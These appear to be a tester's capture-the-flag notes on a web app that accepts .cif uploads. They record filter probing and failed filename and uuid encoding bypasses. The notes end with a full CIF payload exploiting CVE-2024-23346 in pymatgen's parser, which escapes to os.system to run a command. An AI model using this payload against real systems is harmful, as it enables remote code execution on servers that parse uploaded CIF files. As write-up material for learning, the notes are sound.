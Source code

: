 ## FILE NAME FILTERING

- FIle must end with .cif extension
- Mappings between and special characters can be seen in the following (payload was exa\$variable\$). **-> Speciall characters are filtered** **-> more specifically since this is converted to url encoding the % are filtered out, so it probably takes whatever is in the url string directly and any special non url character is ingored**. The only ones not ignored are _, -, .
- Uploading various files with same name results in different files being created, so probably the name is not used in the file system directory.

## FILE CONTENT FILTERING

- site does not seem to filter the contents of the file being sent (anything is valid), but then when trying to access anything that is not a cif file it crashes.
- sending more than one file ignore the second one 

## ATTEMPTED BYPASSES

**filename**

Attempted to see behaviour of upload functionality with names with special characters when under specified conditions. Payload was `filename="exa§s§.cif"`. (for all writable ascii characters)

- simple sending with no encoding
- sending in url encoded
- sending in hex
- sending in standard (by burpsuite) url encoding

so far no results 

**uuid** at /structure/uuid

There is an uuid being created to identify each uploaded file, so i tried the same

- sending ascii with no encoding
- sending ascii with hex encoding -> no luck so far
- sending ascii in url encoding

**uuid** at /structure/uuid

- ascii with no encoding

## REMOTE CODE EXECUTION + RCE

The code is vulnerable to CVE-2024-23346, by uploading the following we can get RCE

```cif
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("touch pwned");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

We are now (somewhat because i couldn't get the shell working) [[RCE]]